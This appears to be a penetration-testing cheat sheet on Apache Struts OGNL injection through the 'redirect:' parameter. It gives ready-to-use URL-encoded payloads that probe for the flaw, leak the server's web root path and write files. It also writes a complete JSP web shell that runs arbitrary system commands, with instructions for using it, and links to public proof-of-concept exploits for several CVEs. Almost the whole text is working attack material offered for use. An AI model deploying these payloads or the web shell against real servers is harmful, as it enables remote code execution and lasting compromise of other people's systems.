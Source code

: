 # Apahe Struts
**.action** and **.do** file are indications of Apache Structs 
On .do pages that you want to test, try browsing to 
*http://www.example.com/appFolder/index.do?redirect:${3&ast;4}*
Also try submitting as a POST request. 
If you are redirected to /12, then the application is vulnerable

**Get current directory:**
```
redirect%3A%24%7B%23a%3D%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27)%2C%23b%3D%23a.getRealPath(%22%2F%22)%2C%23c%3D%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27)%2C%0A%23c.getWriter().println(%23b)%2C%23c.getWriter().flush()%2C%23c.getWriter().close()%7D=
```

**Test ability to write to file:**
```
redirect:${new%20java.io.BufferedWriter(new%20java.io.FileWriter(%22<CURRENT_DIRECTORY_HERE>/alfejawk7feafs.txt%22)).append('123').close()} 
```
*Check if /alfejawk7feafs.txt exists*

**Write web shell:**
*Do not attempt this unless you can get the above file write to work*
```
redirect:${new%20java.io.BufferedWriter(new%20java.io.FileWriter("<CURRENT_DIRECTORY_HERE>/alfejawk7feafs.jsp")).append('<%25%40+page+import%3d"java.util.*,java.io.*"%25><HTML><BODY><FORM+METHOD%3d"GET"+NAME%3d"myform"+ACTION%3d""><INPUT+TYPE%3d"text"+NAME%3d"cmd"><INPUT+TYPE%3d"submit"+VALUE%3d"Send"></FORM><pre><%25out.println("Command%3a+"+%2b+request.getParameter("cmd")+%2b+"<BR>")%3bProcess+p+%3d+Runtime.getRuntime().exec(request.getParameter("cmd"))%3bOutputStream+os+%3d+p.getOutputStream()%3bInputStream+in+%3d+p.getInputStream()%3bDataInputStream+dis+%3d+new+DataInputStream(in)%3bString+disr+%3d+dis.readLine()%3bwhile+(+disr+!%3d+null+)+{out.println(disr)%3bdisr+%3d+dis.readLine()%3b}%25></pre></BODY></HTML>').close()}=
```
You should then be able to use the web shell: `/alfejawk7feafs.jsp?cmd=ls`


Additional resources
```
https://packetstormsecurity.com/files/141494/S2-45-poc.py.txt 
https://github.com/pwntester/S2-046-PoC 
RCE via XML parser 
CVE-2017-9805 - https://github.com/mazen160/struts-pwn_CVE-2017-9805
https://lgtm.com/blog/apache_struts_CVE-2018-11776
CVE-2018-11776 - https://github.com/pr4jwal/quick-scripts/blob/master/s2-057.py
CVE-2017-5638 - https://github.com/mazen160/struts-pwn/blob/master/struts-pwn.py
```
